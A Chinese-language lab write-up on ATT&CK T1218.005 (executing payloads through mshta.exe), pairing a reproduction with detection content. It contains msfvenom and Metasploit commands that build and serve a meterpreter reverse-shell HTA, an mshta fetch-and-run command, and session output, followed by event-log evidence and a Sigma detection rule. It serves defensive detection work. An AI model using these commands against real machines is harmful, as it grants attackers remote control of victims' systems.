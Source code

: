 # T1218-005-win-使用Mshta.exe执行payload（白名单）

## 来自ATT&CK的描述

Mshta.exe是一个执行微软HTA（HTML应用）的实用程序。HTA文件扩展名为.hta。HTA是独立的应用，使用与InternetExplorer相同的模型和技术来执行，但在浏览器之外执行。

攻击者可能会使用mshta.exe通过受信任的Windows实用程序来代理执行恶意.hta文件和Javascript或VBScript。已知攻击者在最初攻击阶段利用mshta.exe来执行代码的几个例子。

Mshta.exe可通过内联脚本来执行文件：mshtavbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))

也可以直接从URL执行：mshta http[:]//webserver/payload[.]hta

Mshta.exe可绕过不考虑其潜在用途的应用白名单解决方案。由于mshta.exe在InternetExplorer的安全上下文之外执行，因此它还会绕过浏览器安全设置。

## 测试案例

Mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。

说明：Mshta所在路径已被系统添加PATH环境变量中，因此，可直接执行Mshta.exe命令。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 7 默认位置：

C:\Windows\System32\mshta.exe

C:\Windows\SysWOW64\mshta.exe

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f hta-psh -o test5.hta

替换相关信息
```

#### 执行监听

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set lhost 192.168.126.146
msf exploit(windows/misc/hta_server) > set srvhost 192.168.126.146
msf exploit(windows/misc/hta_server) > exploit
```

#### 靶机执行payload

```bash
mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta  #需要安装.net Framework 3.5
```

#### 反弹shell

```bash
msf5 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://192.168.126.146:8080/Uj6Tcv.hta
[*] Server started.
msf5 exploit(windows/misc/hta_server) > [*] 192.168.126.156  hta_server - Delivering Payload
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.156:50232) at 2020-04-14 11:03:33 +0800
```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
事件ID： 4688
进程信息:
新进程 ID:0xb20
新进程名称:C:\Windows\System32\mshta.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x13c
进程命令行:mshta.exe  http://192.168.126.146:8080/Uj6Tcv.hta
```

## 检测规则/思路

通过进程监控来检测和分析mshta.exe的执行和参数。查找在命令行中执行原始或混淆脚本的mshta.exe。比较mshta.exe的近期调用与历史已知合法参数及已执行二进制文件来确定是否有异常和潜在的攻击活动。在mshta.exe调用之前和之后使用的命令参数也可用于确定正在执行的二进制文件的来源和目的。

### sigma规则

```yml
title: MSHTA Suspicious Execution 01
id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3
status: experimental
description: Detection for mshta.exe suspicious execution patterns sometimes involving file polyglotism
date: 2019/02/22
modified: 2019/02/22
author: Diego Perez (@darkquassar), Markus Neis, Swisscom (Improve Rule)
references:
    - http://blog.sevagas.com/?Hacking-around-HTA-files
    - https://0x00sec.org/t/clientside-exploitation-in-2018-how-pentesting-has-changed/7356
    - https://docs.microsoft.com/en-us/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script
    - https://medium.com/tsscyber/pentesting-and-hta-bypassing-powershell-constrained-language-mode-53a42856c997
tags:
    - attack.defense_evasion
    - attack.t1140
logsource:
    category: process_creation
    product: windows
falsepositives: 
    - False positives depend on scripts and administrative tools used in the monitored environment
level: high
detection:
    selection1:
        Image: '*\mshta.exe'
        CommandLine: 
            - '*vbscript*' 
            - '*.jpg*'
            - '*.png*'
            - '*.lnk*'
            # - '*.chm*'  # could be prone to false positives
            - '*.xls*'
            - '*.doc*'
            - '*.zip*'
    condition:
        selection1 
```

### 建议

暂无

## 参考推荐

MITRE-ATT&CK-T1218-005

<https://attack.mitre.org/techniques/T1218/005/>

远控免杀专题(37)-白名单Mshta.exe执行payload

<http://sec.nmask.cn/article_content?a_id=d1a4d20858c9283aef9ef49d2e98352c>

检测可疑的Mshta使用情况

<https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/detect-suspicious-mshta-usage.md>

